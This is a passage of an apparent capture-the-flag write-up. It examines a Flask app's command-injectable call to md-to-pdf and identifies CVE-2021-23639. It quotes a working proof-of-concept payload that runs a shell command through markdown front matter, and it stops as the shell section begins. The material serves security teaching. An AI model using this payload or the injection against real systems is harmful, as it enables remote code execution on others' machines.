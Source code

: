    
    
    rand_int = random.randint(1,10000)
    command = f"node misc/md-to-pdf.js  $'{note['body']}' {rand_int}"
    subprocess.run(command, shell=True, executable="/bin/bash")
    
    return send_file(attachment_dir + str(rand_int) +'.pdf', as_attachment=True)
    

The author has attempted to make this call in a secure way, using `$'{}'` to
make sure whatever is passed in is handled in single quotes and can’t append
commands with `;` to get command injection. But there still is an unintended
command injection here (I’ll look at it below).

#### CVE-2021-23639

The `package-lock.json` file will give the version of the required JavaScript
packages. I’ll extract that from the archive and find it with `grep`:

    
    
    oxdf@hacky$ unzip app_backup_1638395546.zip  misc/package-lock.json
    Archive:  app_backup_1638395546.zip
      inflating: misc/package-lock.json  
    oxdf@hacky$ grep -A 3 pdf misc/package-lock.json 
        "md-to-pdf": {
          "version": "4.1.0",
          "resolved": "https://registry.npmjs.org/md-to-pdf/-/md-to-pdf-4.1.0.tgz",
          "integrity": "sha512-5CJVxncc51zkNY3vsbW49aUyylqSzUBQkiCsB0+6FlzO/qqR4UHi/e7Mh8RPMzyqiQGDAeK267I3U5HMl0agRw==",
          "requires": {
            "arg": "5.0.0",
    

Googling for this package and exploit returns a page:

![image-20220330152743772](https://0xdfimages.gitlab.io/img/image-20220330152743772.png)

There’s a payload an attacker can put in the passed in markdown that will
result in RCE.

The site itself actually displayed a payload that doesn’t quite work, but
going into the GitHub repo for the project, there’s an [issue for the
bug](https://github.com/simonhaenisch/md-to-pdf/issues/99), with a nice
working POC:

    
    
    const { mdToPdf } = require('md-to-pdf');
    
    var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';
    
    (async () => {
    	await mdToPdf({ content: payload }, { dest: './output.pdf' });
    })();
    

#### Shell

I’m concerned about putting my input into the DB and getting it back out
again, so I’ll start with the remote export. The code looks like:
